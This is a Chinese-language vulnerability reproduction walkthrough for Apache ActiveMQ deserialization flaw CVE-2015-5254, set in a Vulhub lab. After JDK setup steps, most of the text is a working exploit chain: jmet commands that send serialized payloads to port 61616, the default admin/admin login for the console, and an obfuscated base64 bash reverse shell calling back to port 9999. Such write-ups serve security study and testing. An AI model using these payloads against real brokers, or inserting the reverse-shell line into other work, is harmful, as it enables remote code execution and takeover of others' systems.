

Apache ActiveMQ 反序列化漏洞 CVE-2015-5254¶
漏洞描述¶
Apache ActiveMQ是美国阿帕奇（Apache）软件基金会所研发的一套开源的消息中间件，它支持Java消息服务，集群，Spring Framework等。Apache ActiveMQ 5.13.0之前5.x版本中存在安全漏洞，该漏洞源于程序没有限制可在代理中序列化的类。远程攻击者可借助特制的序列化的Java消息服务（JMS）ObjectMessage对象利用该漏洞执行任意代码。
漏洞影响¶
Apache ActiveMQ 5.13.0之前5.x版本
环境搭建¶
安装jdk¶
查看java版本，如果是java 11需要切换到java 8
java -version
安装java 8，默认安装路径/usr/lib/jvm/java-8-openjdk-amd64
sudo apt install openjdk-8-jdk
配置环境变量，添加jdk安装路径
sudo vim ~/.bashrc
# 在最后一行添加
export JAVA_HOME=/usr/lib/jvm/java-8-openjdk-amd64
切换jdk版本¶
采用update-alternatives命令进行版本切换
/usr/bin/java和/usr/lib/jvm/java-8-openjdk-amd64/bin/java两个路径一定要和自己的路径吻合
sudo update-alternatives --install /usr/bin/java java /usr/lib/jvm/java-8-openjdk-amd64/bin/java 1070
切换jdk
sudo update-alternatives --config java
再次查看java版本，切换成功

漏洞复现¶
Vulhub搭建及运行漏洞环境：
docker-compose up -d
下载 jmet 下载链接
wget https://github.com/matthiaskaiser/jmet/releases/download/0.1.0/jmet-0.1.0-all.jar
mkdir external
对目标发送一个生成**/tmp/awesome_poc**的 payload
java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "touch /tmp/awesome_poc" -Yp ROME 192.168.174.128 61616
访问 http://192.168.174.128:8161/admin/browse.jsp?JMSDestination=event 可以看到多了一条消息队列，ID为kali-38087-1645421794512-1:1:1:1:1
默认账号密码：admin/admin
点击这个信息触发文件创建，成功执行命令 touch /tmp/awesome_poc
也可以创建一个反弹shell的payload
bash -i >& /dev/tcp/192.168.174.128/9999 0>&1 (base64编码)
YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYx
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYx}|{base64,-d}|{bash,-i}
# 发送payload
java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYx}|{base64,-d}|{bash,-i}" -Yp ROME 192.168.174.128 61616
查看消息队列，ID为kali-38435-1645422155171-1:1:1:1:1

监听9999端口，点击消息队列会触发命令执行，反弹Shell